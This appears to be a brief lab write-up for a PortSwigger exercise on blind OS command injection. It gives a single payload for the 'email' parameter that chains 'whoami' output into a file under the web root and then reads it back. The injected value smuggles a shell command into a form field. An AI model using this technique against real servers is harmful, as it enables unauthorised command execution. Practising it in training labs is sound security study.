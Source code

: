 # Blind OS command injection with output redirection

Source: Portswigger
Tools: Burpsuite
Technique: Blind, OS Command Injection
Fields: Web

- Modify the `email` parameter, changing it to:

email=||whoami>/var/www/images/output.txt||
- read file output.txt